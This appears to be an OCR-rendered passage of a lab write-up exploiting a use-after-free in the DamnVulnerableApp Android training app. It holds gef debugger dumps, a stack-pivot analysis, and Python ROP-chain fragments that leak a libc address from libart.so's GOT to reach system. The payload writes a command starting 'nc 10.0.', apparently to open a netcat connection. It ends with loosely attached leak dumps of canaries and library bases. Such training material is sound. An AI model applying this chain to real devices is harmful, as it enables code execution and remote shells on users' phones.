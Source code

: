 We can use the debugger to figure out how many qwords we need to pop in order for the `ret` - instruction to return to `keyValue`:
```
gef➤  disassemble Java_com_damnvulnerableapp_vulnerable_modules_UseAfterFreeExecModule_storePair
    ...
    0x0000730b9d3c8b5c <+252>:	mov    rax,QWORD PTR [rbp-0x70]
    0x0000730b9d3c8b60 <+256>:	mov    rax,QWORD PTR [rax+0x100]
    0x0000730b9d3c8b67 <+263>:	mov    rdi,QWORD PTR [rbp-0x78]   <--- keyValue
    0x0000730b9d3c8b6b <+267>:	xor    ecx,ecx
    0x0000730b9d3c8b6d <+269>:	mov    DWORD PTR [rbp-0xac],ecx
    0x0000730b9d3c8b73 <+275>:	mov    esi,ecx
=>  0x0000730b9d3c8b75 <+277>:	call   rax      <--- execution condition
    ...
gef➤  x/1gx $rbp-0x78
    0x730b9afdf818:	0x0000730cb77bb950
gef➤  x/10gx $rsp
0x730b9afdf7e0:	0x00000000990de82b	0x0000730d778087d0
0x730b9afdf7f0:	0x0000730b9afdfb00	0x0000730d77808880
0x730b9afdf800:	0x0000730b9afdfd60	0x0000730ca77f2750
0x730b9afdf810:	0x000000d09afdf8b0	0x0000730cb77bb950  <--- this is keyValue
0x730b9afdf820:	0x0000730cb77bb950	0x0000730c0379509c
```

So when we run into `call rax`, we push an additional return address onto the stack. Therefore we need to pop `1 + 7` qwords from the stack before we can shift the stack into `keyValue` and hit `ret`. So we need `rsp` to be `keyValue`, then the stack "changes" to our controlled ROP - chain. Therefore we can make use the *Execute* condition to run the above gadget, which will then trigger execution of the gadgets located in `keyValue`.

Now we will try to leak a `libc.so` address into a global variable in `libart.so`. This allows us to compute the `libc.so` base address, which in turn allows us to call `system` (the holy grail)! To that end, we will try to find a `libc.so` address in `libart.so`. The `.got.plt` is the best place to start looking. As Android's dynamic linker likes loading shared objects with `BIND_NOW` (which is probably motivated by *RELRO*), the `.got.plt` is already populated with the correct function addresses. This implies that the `.got.plt` entry of `_exit` contains the actual address of `_exit` in the `libc.so`. Computing the offset of `_exit`'s `.got.plt` entry yields `0xc1be50` (we could use any other function from `libc.so`; `_exit` was chosen arbitrarily).

Observe that we only need 6 qwords to leak `system`:
```python
# Leak exit@libc into rax
payload += gadget_pop_rdi
payload += address_got_plt_exit
payload += gadget_mov_rax_deref_rdi

# Put system@libc into rax
payload += gadget_pop_rcx
payload += p64(offset__exit - offset_system) # --> offset__exit >= offset_system (just testing)
payload += gadget_sub_rax_rcx
```

After the above, `rax` will contain the address of `system@libc`. Setting up the command to execute can be done by writing to a writable memory area in `libart.so` (hope that this does not crash; otherwise choose another area until it works). Writing the command could look like this:
```python
payload += gadget_pop_rdi
payload += address_writable_memory
payload += gadget_pop_rcx
payload += b'nc 10.0.'
payload += gadget_mov_deref_rdi_rcx
```


[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address